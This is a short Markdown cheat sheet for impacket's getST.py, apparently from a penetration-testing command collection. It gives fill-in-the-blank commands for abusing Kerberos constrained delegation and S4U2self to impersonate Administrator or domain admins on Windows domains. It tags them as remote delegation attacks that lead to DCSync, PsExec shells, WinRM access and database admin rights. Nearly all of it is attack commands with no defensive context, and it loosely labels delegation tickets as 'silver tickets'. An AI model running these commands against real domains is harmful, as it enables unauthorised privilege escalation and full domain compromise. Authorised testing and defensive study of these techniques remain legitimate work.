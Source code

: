 # getST (imp)

% impacket-kerberos, windows, kerberos, 88, delegation, TGS

## request TGS
```
getST.py  -spn <svc|host>/<target_fqdn> '<domain_fqdn>'/'<user>':'<password>'
```

## Silver ticket (constrained delegation with protocol transition)
#plateform/linux #target/remote  #cat/ATTACK/DELEGATION 
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
```
getST.py -spn <svc|host>/<target> -impersonate <target_user|Administrator> -dc-ip <dc_ip> '<domain_fqdn>'/'<user>':'<password>'
```


## Silver ticket (S4U2self)
#plateform/linux #target/remote  #cat/ATTACK/DELEGATION 
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
using the machine account TGT
```
export KRB5CCNAME=<computer>.ccache
getST.py -self -impersonate "DomainAdmin" -altservice "cifs/<computer_fqdn>" -k -no-pass -dc-ip <dc_ip> "<domain_fqdn>"/'<computer>$' 
```

## use silver ticket
HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
```
getST.py -spn <svc|host>/<dc2> -impersonate <user_to_impersonate> -dc-ip <dc1_ip> '<domain_fqdn>/<computer_name>$:<computer_password>'
```
